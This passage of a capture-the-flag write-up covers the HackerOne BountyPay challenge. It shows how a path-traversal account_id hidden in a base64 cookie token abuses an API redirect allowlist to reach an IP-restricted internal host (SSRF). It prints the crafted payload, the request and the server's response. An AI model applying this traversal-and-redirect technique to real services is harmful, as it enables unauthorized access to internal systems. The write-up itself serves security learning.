 If we cannot bypass the controls in place, maybe we can find other urls present in the allowlist. It turns out that both `https://staff.bountypay.h1ctf.com/` and `https://software.bountypay.h1ctf.com/` are accepted ! Which means that we can bypass the IP restriction on software.bountypay.h1ctf.com.

!!! warning
    I ended spending way more time on this step since when I first tested this I did not add the `/` at the end of the URL resulting in a URL `NOT FOUND IN WHITELIST` error 😢. The cool part is that because of that I went down a rabbit hole thinking that there might an open redirect on www.google.com. Turns out there are some but they were not exploitable since the whitelisted URL needed to end with `search?q=.`

Let's set `../../redirect?url=https://software.bountypay.h1ctf.com/#` as our account id and see what happens:

```json
{
  "account_id": "../../redirect?url=https://software.bountypay.h1ctf.com/",
  "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```

```
http get https://app.bountypay.h1ctf.com/statements\?month\=02\&year\=2020 \
Cookie:'token=eyJhY2NvdW50X2lkIjoiLi4vLi4vcmVkaXJlY3Q/dXJsPWh0dHBzOi8vc29mdHdhcmUuYm91bnR5cGF5LmgxY3RmLmNvbS8jIiwiaGFzaCI6ImRlMjM1YmZmZDIzZGY2OTk1YWQ0ZTA5MzBiYWFjMWEyIn0='
```

```HTTP
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: application/json
Date: Thu, 04 Jun 2020 17:10:40 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

{
    "data": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>Software Storage</title>\n    <link href=\"/css/bootstrap.min.css\" rel=\"stylesheet\">\n</head>\n<body>\n\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <h1 style=\"text-align: center\">Software Storage</h1>\n            <form method=\"post\" action=\"/\">\n                <div class=\"panel panel-default\" style=\"margin-top:50px\">\n                    <div class=\"panel-heading\">Login</div>\n                    <div class=\"panel-body\">\n                        <div style=\"margin-top:7px\"><label>Username:</label></div>\n                        <div><input name=\"username\" class=\"form-control\"></div>\n                        <div style=\"margin-top:7px\"><label>Password:</label></div>\n                        <div><input name=\"password\" type=\"password\" class=\"form-control\"></div>\n                    </div>\n                </div>\n                <input type=\"submit\" class=\"btn btn-success pull-right\" value=\"Login\">\n            </form>\n        </div>\n    </div>\n</div>\n<script src=\"/js/jquery.min.js\"></script>\n<script src=\"/js/bootstrap.min.js\"></script>\n</body>\n</html>",
    "url": "https://api.bountypay.h1ctf.com/api/accounts/../../redirect?url=https://software.bountypay.h1ctf.com/#/statements?month=02&year=2020"
}
```
